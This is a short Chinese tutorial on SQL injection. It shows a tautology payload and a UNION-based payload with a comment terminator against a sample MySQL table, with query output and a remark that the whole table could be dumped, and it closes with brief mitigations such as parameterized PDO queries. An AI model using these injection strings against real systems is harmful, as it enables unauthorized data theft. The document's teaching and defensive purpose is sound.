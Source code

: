 ## SQL 注入攻击

### SQL 未转义注入

#### 正常请求
- name = `lucky`

```sql
mysql> select * from t_new where name = 'lucky' limit 1;
+-------+-------+----------+---------------------+--------+
| id    | name  | birth    | create_time         | status |
+-------+-------+----------+---------------------+--------+
| 90001 | lucky | 20170724 | 2021-03-31 18:19:29 | 9      |
+-------+-------+----------+---------------------+--------+
```

#### 验证是否可以进行 SQL 注入
- name = `lucky' or 1 = '1`
```sql
mysql> select * from t_new where name = 'lucky' or 1 = '1' limit 1;
+-------+-------+----------+---------------------+--------+
| id    | name  | birth    | create_time         | status |
+-------+-------+----------+---------------------+--------+
| 90001 | lucky | 20170724 | 2021-03-31 18:19:29 | 9      |
+-------+-------+----------+---------------------+--------+
```

#### 构造 SQL，获取更多的数据
- name = `lucky' union select * from t_new where id = '90002' limit 2; --`
- 如上攻击 SQL 稍做修改，就可以把整个表脱下来，俗称“`脱裤`”
- `--` 会直接注释后面的 `' limit 1;`，这样一来可以解决`limit 1`的限制，在命令行多产生两条 SQL，不影响数据的查询
```sql
mysql> select * from t_new where name = 'lucky' union select * from t_new where id = '90002' limit 2; --' limit 1;
+-------+-------+----------+---------------------+--------+
| id    | name  | birth    | create_time         | status |
+-------+-------+----------+---------------------+--------+
| 90001 | lucky | 20170724 | 2021-03-31 18:19:29 | 9      |
| 90002 | lucky | 20170724 | 2021-03-31 18:19:29 | 9      |
+-------+-------+----------+---------------------+--------+
2 rows in set (0.00 sec)

    '>
```

### 解决方案
- PDO
    - `where('name = ?', 'lucky')`
- 过滤、拦截、转义等
